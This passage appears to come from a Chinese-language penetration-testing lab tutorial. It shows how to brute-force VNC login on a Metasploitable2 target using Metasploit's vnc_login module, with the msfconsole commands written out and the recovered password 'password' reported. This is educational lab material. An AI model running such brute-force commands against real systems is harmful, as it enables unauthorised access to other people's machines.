 + `/usr/share/metasploit-framework/modules/auxiliary/scanner/vnc/vnc_login.rb`


### 4.2 启动 msfconsole

前面的实验中，我们学过如何在 Kali 中执行下面的命令，进入 msfconsole：

```
# 打开终端 MSF
sudo msfconsole
```

### 4.3 配置攻击模块

后续的步骤跟 SSH 实验中非常类似。

选择使用攻击模块：

```
msf > use auxiliary/scanner/vnc/vnc_login
```

配置暴力破解的线程数，线程数越多执行的会越快（当然受限制于当前机器的CPU配置），但配置的线程数越多则越容易被目标主机发现：

```
msf auxiliary(vnc_login) > set THREADS 5
THREADS = > 5
```

配置目标主机 IP 地址：
```
msf auxiliary(vnc_login) > set RHOSTS 192.168.122.102
RHOSTS = > 192.168.122.102
```

执行暴力破解：
```
msf auxiliary(vnc_login) > exploit
```

### 4.4 查看结果

很快 vnc_login 的攻击结果就出来了，因为 vnc 登录没有输入用户名只需要尝试各种常见的弱密码，结果可以看到 vnc 登录的密码为 `password`：

![此处输入图片的描述](https://doc.shiyanlou.com/document-uid13labid2313timestamp1480485354713.png/wm)

思考：为什么我们没有设置 vnc_login 的 userpass_file 字典文件也可以进行暴力破解攻击？

## 五、总结

### 5.1 总结

在本实验中，我们依旧基于实验楼环境下 Kali 的 MSF 终端，对渗透目标主机 Metasploitable2 的 SSH 服务和 VNC 服务进行暴力破解：

- Linux 基本操作命令
- MSF 终端下的攻击流程
- 暴力破解字典文件的理解
- 暴力破解 SSH 服务
- 暴力破解脚本解析
- 暴力破解 VNC 服务
